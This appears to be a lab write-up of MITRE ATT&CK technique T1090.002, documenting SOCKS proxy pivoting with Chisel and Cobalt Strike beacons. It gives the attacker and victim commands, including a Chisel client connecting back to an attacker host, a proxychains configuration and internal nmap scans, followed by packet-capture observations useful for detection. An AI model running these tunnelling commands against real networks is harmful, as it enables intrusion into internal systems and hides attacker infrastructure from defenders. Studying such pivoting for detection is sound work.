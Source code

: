 # T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

Simple layout from the test environment.

```
Attacker machine (Server proxy) -> External facing machine (Client proxy) -> Internal facing machine
```

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 

![chisel_server_listening_port](./Image_T1090.002/chisel_server_listening_port.png)

#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```

![chisel_client_1](./Image_T1090.002/chisel_client_1.png)

#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```

![chisel_pcap_1](./Image_T1090.002/chisel_pcap_1.jpg)

It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

#### In Attacker Server

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.

![cs_server_socks_1](Image_T1090.002/cs_server_socks_1.png)

```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

#### In Victim Server

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, the attacker will pass the network forwarding data to victim machine via the attacker's machine listening port (in this case is port 443).

![cs_client_socks_1](./Image_T1090.002/cs_client_socks_1.png)

Here is the decoded packet data found in the beacon that sent from teamserver. The command ID 0xE triggers the traffic forwarding function later.

```
Command used in attacker machine
> proxychains nmap 120.10.13.129
```

![cs_client_packet](./Image_T1090.002/cs_client_packet.png)

> Packet count is Command count xD

Screenshot below show the psedocode of beacon's traffic forwarding function.

![cs_client_socket_conn_1](./Image_T1090.002/cs_client_socket_conn_1.png)

## Findings

If network traffic is pass through proxy channel into internal network, you will only see the source IP of the machine where have the client SOCKS proxy installed and the target internal IP.

This can be seen in the packet from screenshot above.
Attacker executes `proxychains nmap 172.16.228.11` from their own machine to internal facing machine `172.16.228.11`, in the network packet data, the source address is the internal IP of the external machine instead of the attacker IP.

The SOCKS proxy port is completely on the attacker (teamserver) side, where it can't be find in the victim (client) side. This means the beacon in the victim machine just a relay to forward the traffic to internal in this case, while the teamserver will handle the SOCKS proxy/traffic forwarding stuffs.

## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
